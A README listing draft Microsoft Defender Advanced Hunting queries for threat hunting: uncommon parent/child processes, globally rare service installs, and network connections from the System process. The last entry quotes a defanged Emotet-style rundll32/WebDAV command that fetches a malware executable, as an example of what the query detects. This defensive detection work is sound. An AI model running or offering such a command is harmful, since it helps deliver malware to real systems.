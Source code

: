 # Rough Draft Queries

Clicking on the name of the query will bring you to the file for it in this git repo.

***Or try them out right away in your M365 Security tenant:***

Click on the '🔎' hotlink to plug the query right into your Advanced Hunting Query page

### [🔎](https://security.microsoft.com/v2/advanced-hunting?query=H4sIAAAAAAAAA9VZbW_bNhC-zwX2H5QOaGPAtbOkb0vRD16aNFnnNFuaFMU2dKok22ps2bDsZBmG_vY-91CqIolOY0cOYAiySd7x3ng8Hk9NaYojLfHFlZFMJEDLkY6MZSgDtPakj9ZYQsAj9P9AbyI9eSgxevflNfo6o83_AK1j4HYx1yX2FPMD4P0g98BJeY3R78g2Wj1QmoBrjJ7CupgZY6TBlnKZyif0PMrSlEPMHMqmbMm_soH-c_kJjw-cDfkZ_Hw8T9DakKeAufIM73P0NtHaAuwZ5j8B76f438C_yqTSTSDLhZyRdwT5p2iNIIGHd8jeESip3BEwVO-XeH25RN-FZIq5Ln9Cywu0I_yqxXxIHkBS1b5OW2nPw2-_BBlhxgX6Y7QiWiAPH1AiY4085Jw2UzmLEJV8wtUbQrcM-rfU5MUcuu9gHULg-okFZmvvoVfWOtMtBiXV3qb_BaHFcR316H0ji1W8a6EKUw9z0VL9bPAxfSuyQFXXLsbP0dqCBxXhPau0xhq21TOS2CBhMlae16EfdWj9ICdjeQ1jYKqst_FejQAurZbJMOHe8zA-uaLnFt6RZRV7eB8BW_dvERpxNMJY2ZYmDvhWDV-hf04pA2iiccmjNWLZxXiqlWI6hcfEG5v_Kfb_9PweIRq38rR3qPeAUc-X3yi5Yhl_0bUM6TcqvwOdDzF-xF5eEl3B29B-JO8ZKUNGN9XWzmH9lvIH_DfYi8r7kTvSUPwVZ8ovaNVWQtpjOZFT-SAHKyTx77DvHqy8h33VWhm5XfjzqTxeIUsfrJQnH0HaVfIG9eI-JN6_1osXl7oBDI3_ETMhzRE10xkTowt7VB2vy_zS87t6Xi-S3KFM2Zx8Hs-2CfPAMDn1quOu_uAzb0kz_6r1Uz2u55Ce8IaDD00H6FWvp7nN2LlrBqXvGXOk_yrnHgN2Bs3GWMEYsOqtPML9a5s72q6hufEF5DPK8XGWZnNz59P822Pm6zNvq-OeqVghskLDt3przOL8I24Bj--Mn_NNU_-ONXXuSFNH_gGn5XO5Cx7L9kpdG6WrlZkpV8m-U8esEQS89VUrQZNniIdIpPfN7Wtiod6rq-V9zhkubaCjDk8Dc_MNGCF7hA5ZL6ja9qYSoBl3C5nrLlr78gZz2vIXHh1tV86zTVvr7BhvB1Dl9Z4YqZ46ssNzIb3bnya33JAUFa71t_KN0axVbKkUOLz9m2pPMdYHM3xqHRlyxHpdyBPQZFZ53feSHOiQFQfVWrG-cPY8lbeaZNnn4jSLFa3azGx5Ec16rDh9pJyXpHLz2kxRDvOkGt8me9dKxzCp9xT9oTq_jcRUo6b0l7GUM4rqeI2S9dD8LFoqpxjrGDPWmPijdbnlcXvATPYB897eUjl59KpmkvmVd4GJE1c9x6Fvayz8gPcdomG78ntm3lMz728B2-Ou0RmvSNFNzgMbnZacQMJ9eYsomFUbjE67rMT36acmWsbWmmDE3HfdsstfMtKUa96ZvIvEjpSq7UtBzSphmcZaQuMzdsgmYC4t5iVzMno2aovIvMZ68n1geoh65tvHWYFX5k0t3JCmCbcW6-9qsW4SARevy67N8PAe5w5pB93Bl5BKJexWagFj8fKp3cCYSmo0HCRaNrB3Ap4JYUK1Ab369G0_N8Nn9Vu_X2gdXivurW-2yq9k6teHmDG_f39f63l28A7yQ5OvHFCet2gdc8TjftGvCcYfdWy-PTOPHEr9hBQjxm83-fb0SczXjGxHmUznM2Ounl_veKcPklmaeeuXiqtfItLVr1v2YP2GXltfyN9uNms2x3wcvUo1Dznht8ivnyLIXSAeAAA&timeRangeId=week) [Detect All The Things](DetectAllTheThings.kusto)

- One rule to detect the most common initial access and execution methods
- Looks for uncommon parent/child process combinations
- Adapted from from [Florian Roth](https://twitter.com/cyb3rops)'s (["God Mode Sigma Rule"](https://gist.github.com/Neo23x0/811db09add59068a7a80273d7e5f6e0f))
- Still too many false positives to turn into a detection rule
- Missing some things from the original rule

### [🔎](https://security.microsoft.com/v2/advanced-hunting?query=H4sIAAAAAAAAA61V22rbQBQ8z4X-gyooOOCkF2hfWlNKk16ghIDzVkpRLTmO40jCktO0hH57Z2a9luR1aj0EIe3u2bNzZs9NC8ustsjObInZjSW2wJjbBN9zm0laYSwgT6E3wvvCnut5g_kzPBFOpTa3FTRrrSp8c5zMIOf72B7ZsfAvhXyCGa3U0OTeHfR_wUome5G9h1YN3QI65_bbSklHsh7bWHoe6wt0aJfMF7IWC5PMDvFENtVeJYwSmBVOEv1Gd_O62xw-QoN4pzh9LckT2CvEOsFerlvG2LmVRiltriaYrWSF2keSZQGrEyAf92JHZsSo5bNU_knxXG58RATyzRSlah2nGnspvJeLH7012Hvy4B6LXZ83PvF2GIGlvHLRw8qRfQvi6DFj-96TBbOEEVkpJg_JpYvcn9FYubHEt521D8UqRO8ymwOJ-JFdaUxhm2MulKhTgT6725UYiUmY-bsqdGyfcYeX9speox-wNlxtxpueQGvTtZ-c_Rz4jNMEuCVmq40_IiAn6jOZePxVj3kqRlP5byar9JbLuyl2iFlhdBLySrTO7R3Wp-v-QzxacfVEhAvoeb_7u1Vgc40nEac_QvywlVtNRgzg9SEkX2WxVpwy9SrHz_Uj9gR3kri3OBXuO5x2ZKrWmSusf6g30GZby8fmAJo_kQ1h1IaSub5N_5_p1jPJ29EbbcVyeG-1hzvdOgn3w4z1_nYRKXTDhjv_Qoy4Ww1UAQ23uJXrpTTn0OKf4lDRZ0b4XNsfmf_f8xMYFPAs63LXv3FXTew7E9nb3n_aJi8L-c9Heb8N3nti_wAFgeAb2AcAAA&timeRangeId=week) [Globally Rare Service Installed](GloballyRareService.kusto)

- For each service installation, check the global prevalence of the service executable
- Idea from mRr3b00t [@UK_Daniel_Card](https://twitter.com/UK_Daniel_Card) ([link to tweet](https://twitter.com/UK_Daniel_Card/status/1657005272764760065))
- Query is slow and the join needs more scrutiny for correctness

### [🔎](https://security.microsoft.com/v2/advanced-hunting?query=H4sIAAAAAAAAA6WU3WrbQBCF57rQd9iKQlJo4zr9o4ZcpHZLe1NMHdqUpgTZVmpjRRKSbCdQ8uz9ZlaKJWNDISyWd2dnzpk5M1JHOuJkJLdSSCmRXHOaSM4u5DyXRP5gSTiXspaUm4V5pNjUOjEvPRWVfSmxTNmPuXXghdzdsitlVuEV8lgewavMp1XUNUtRnJyxhvyH-BXYJkSFlpuirjkpUo1X2C7H44o1x9tV1khuJCOX1CLqSn5gH8sA3u8WmfKc8lxzr76hsWjWMbbQlNhkG1mWpanhGUIsyhJJr-GXo0ICUsx6JcdyZL6qRx-_C6siqXgLzkVDf_W_4C6UFdXE-JXEe6znZK72kWXQJz6lH3ND7hL3Ds-X1a-LbQarqtCzvNoev3j-xtaRp_yW8EfkXbDPOI1hUzU7W1r4KF-N1jvgf2WekXxtTclH7JFl7_v917o3MxbN9wt3vjObSRtylxqW9v4T1thwVWWNOZE7nkFrXoOd6KeNyTzDO6viTyy-v2N-R1Q9uecOWl2_sU4s6YKixJajqqJVDPfUl9ikHIKeocRrubS5vOSUs1tVM30o3xpTpWjPWI5Vvx8fyNZtRTmbeFUs2sO-jerkiSmmXdSObN6jgBl4K-_p67G8Ic8jLDX7QD7DrtFXRPpuTJlCZ0qoTd_20jTRDi7kRUOdh-fl5zUwPVxDldgmP2NKQ7gW_83ku99jdVuou9Z-Jn-TWp7K1pyQ4v5rWHs-RIFzqj9vdeSnfWFz48_p_4F965pvbD2T_wDuYJTv2gUAAA&timeRangeId=week) [System Process Network Connections](SystemProcessNetCons.kusto)

- Looks for network connections initiated from the System process
- A common TTP associated with this traffic is exploiting WebDAV to download malware
- Emotet example: `rundll32.exe C:\windows\system32\davclnt.dll,DavSetCookie 127.0.0.1 hxxp://127.0.0[.]1/$/users/public/malware[.]exe`
